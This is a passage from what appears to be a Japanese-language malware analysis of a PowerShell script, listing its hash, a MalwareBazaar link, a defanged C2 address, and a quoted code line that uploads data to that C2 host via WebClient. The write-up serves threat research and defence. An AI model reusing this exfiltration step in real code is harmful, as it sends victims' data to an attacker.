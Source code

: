 ##### temp.ps1の解析

以下のsha256です。これもabuse.chにアップロードされていますので、ダウンロードしてみてみましょう。  

- sha256: 16007ea6ae7ce797451baec2132e30564a29ee0bf8a8f05828ad2289b3690f55
- URL: https://bazaar.abuse.ch/sample/16007ea6ae7ce797451baec2132e30564a29ee0bf8a8f05828ad2289b3690f55/

![psscript02_01](https://raw.githubusercontent.com/proshiba/analysis/main/ps-malware01/images/script-ps1_02.png)

こっちも結構似てますね、少なくとも最初の方にある難読化用の関数などの処理は同じコードを共有してます。  

```ps
# 省略
	$webclient = New-Object System.Webclient
	$CXVcXBMWETpjxrCXsDCUDfnnEYusHG = $webclient.UploadData($c2host, $uploaddata)
# 省略
```

ここでアクセスしているc2URLは以下になってました。
- hxxp://45.89.125[.]189/put
